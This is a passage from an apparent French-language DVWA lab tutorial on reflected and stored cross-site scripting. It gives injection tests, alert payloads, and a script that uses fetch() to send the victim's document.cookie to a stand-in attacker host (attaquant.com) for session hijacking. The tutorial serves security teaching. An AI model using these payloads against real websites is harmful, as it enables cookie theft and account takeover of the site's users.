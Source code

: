 C'est un candidat parfait pour tester le XSS puisque notre entrée est directement reflétée sur la page.

### Tests de base

Testons si l'application traite les balises HTML en injectant:

```html
<i>John</i>
```

Si le nom apparaît en italique, cela confirme que les balises HTML sont traitées, ce qui est un indicateur fort de vulnérabilité XSS.

### Exploiter la vulnérabilité

Essayons maintenant une simple charge utile JavaScript:

```html
<script>alert('XSS')</script>
```

Si une boîte d'alerte apparaît, nous avons confirmé avec succès la vulnérabilité XSS.

### Exploitation avancée

Pour une attaque plus pratique, essayons d'accéder aux cookies:

```html
<script>alert(document.cookie)</script>
```

Cela affiche les cookies de la victime, qui pourraient être capturés et envoyés au serveur d'un attaquant:

Pour une attaque réelle, un attaquant pourrait utiliser quelque chose comme:

```html
<script>
fetch('https://attaquant.com/voler?cookie='+document.cookie)
</script>
```

Cela enverrait les cookies de la victime au serveur de l'attaquant, permettant potentiellement le détournement de session.

## Partie 2: XSS stocké

### Identifier la vulnérabilité

Naviguez vers la page "XSS (Stored)" dans DVWA. Cette page simule un simple livre d'or ou système de commentaires.

### Tests et exploitation

Postons un commentaire avec la charge utile suivante:

```html
<script>alert('XSS stocké')</script>
```
